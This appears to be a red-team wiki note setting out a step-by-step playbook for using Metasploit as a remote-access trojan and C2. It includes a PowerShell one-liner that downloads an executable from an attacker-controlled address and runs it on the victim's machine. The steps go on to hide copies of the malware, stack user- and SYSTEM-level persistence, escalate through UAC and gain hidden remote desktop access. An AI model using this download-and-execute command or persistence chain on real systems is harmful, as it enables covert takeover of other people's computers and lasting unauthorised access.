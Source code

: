
> For the next demonstration we will use metasploit as a RAT / C2

- [ ] First create a malware that evade AVs, see [[AV Evasion]]
- [ ] Then serve your malware with a simple http server with python
- [ ] Start you metasploit listener and "set ExitOnSession false" to contiously listen
- [ ] The victim have to download and execute the malware : 
```powershell
wget http://192.168.0.12:8000/reverse.exe -o $env:TEMP\jkr.exe; Invoke-Item $env:TEMP\jkr.exe
# NOTE : Here our malware is named jkr.exe
```
- [ ] Then duplicate your metasploit sessions by rerunning your malware one more time (we do this because we want a backup session in case we broke our current session)
- [ ] Then apply a first persistence at user level, best to see: [[Methodology/Red/PostExploitation/Persistence/Windows/Run on boot]] 
- [ ] Then elevate your privileges, best to see : [[ask for UAC]]
- [ ] Duplicate your malware elsewhere in the filesystem (in a less obvious location), for example the `AppData\Roaming` directory and use this new copy of your malware for new steps
```powershell
cp $env:Temp\jkr.exe "C:\Users\talion\AppData\Roaming\"
```
- [ ] Once you are `NT AUTHORITY\SYSTEM`, apply a second persistence with higher privileges, see [[Methodology/Red/PostExploitation/Persistence/Windows/Services]] or [[Methodology/Red/PostExploitation/Persistence/Windows/Scheduled tasks]]
- [ ] Install a third more stealth and resilient persistence with [[Velociraptor]]
- [ ] Then get a remote GUI desktop, you could take a look at [[metasploit vnc]], [[metasploit rdp]], [[rustdesk]] and [[HowToEnableRDP]], or check Hidden VNC (HVNC) techniques
